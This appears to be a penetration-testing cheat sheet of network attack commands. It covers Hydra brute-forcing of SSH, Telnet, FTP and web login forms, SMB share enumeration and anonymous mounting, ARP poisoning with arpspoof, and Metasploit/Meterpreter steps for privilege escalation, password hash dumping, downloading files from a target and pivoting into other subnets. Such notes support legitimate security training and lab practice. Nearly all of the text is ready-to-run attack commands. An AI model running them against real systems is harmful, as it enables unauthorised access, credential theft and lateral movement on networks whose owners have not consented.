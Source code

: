 ```yaml
---
description: 'SSH, Telnet, RDP, HTTP auth, Windows shares'
---
```


# Network Attacks

## Hydra <a id="hydra"></a>

### SSH <a id="ssh"></a>

```text
hydra -L users.txt -P pass.txt 10 10.10.10.10 ssh
```

### Telnet <a id="telnet"></a>

```text
hydra -L users.txt -P pass.txt telnet://10.10.10.10
```

### FTP <a id="ftp"></a>

```text
hydra -L users.txt -P pass.txt ftp://10.10.10.10
```

### POST form login <a id="post-form-login"></a>

```text
hydra 10.10.10.10 http-post-form "/login.php:user=^USER^&pass=^PASS^:statement for incorrect login" -L /usr/share/ncrack/minimal.usr -P /etc/john/rockyou.txt
```

Add`-f` to stop the brute-forcing after finding one valid cred.

* /etc/john/rockyou.txt for passwords.
* /usr/share/ncrack/minimal.usr for users.
* Sometimes you can just use the users list for the passwords too.

## Shares

### Shares Enumeration

```text
nmblookup -A 10.10.10.10
```

### List Shares

```text
smbclient -L //10.10.10.10 -N
```

### Mount Share

```text
smbclient //10.10.10.10/sharename -N
```

### enum4linux <a id="enum-4-linux"></a>

```text
enum4linux -a 10.10.10.10
```

The above command does all the previous ones and gives you more data too except mounting the shares, which you have to implement using smbclient.

## ARP Poisoning <a id="arp-poisoning"></a>

### arpspoof <a id="arpspoof"></a>

&lt;interface&gt; == eth0/tap0

```text
arpspoof -i <interface> -t target -r host
```

## Metasploit

### Basic <a id="basic"></a>

```text
search <term>
use <term>
info
show options
set <option> x
exploit
```

### Meterpreter <a id="meterpreter"></a>

**bind\_tcp**: runs a server process on the target machine that waits for connections from the attacker machine.

**reverse\_tcp**: performs a TCP connection back to the attacker machine. Helps evade firewall rules.

```text
background #backgrounds the current session
sessions -l
sessions -i %n
sysinfo
ifconfig, route
getuid
getsystem #windows privesc
bypassuac #if windows privesc fails
hashdump
cat '/path/to/file.txt'
download '/path/to/fileontarget.txt' /root/mymachine/
```

### Routing in Metasploit

Background the meterpreter of the session where you found the other subnet accessible.

```text
use post/multi/manage/autoroute
route add <subnet> <session-id>
```

You have to input the session id of the meterpreter session.

Now the subnet is accessible in the whole of Metasploit-Framework.


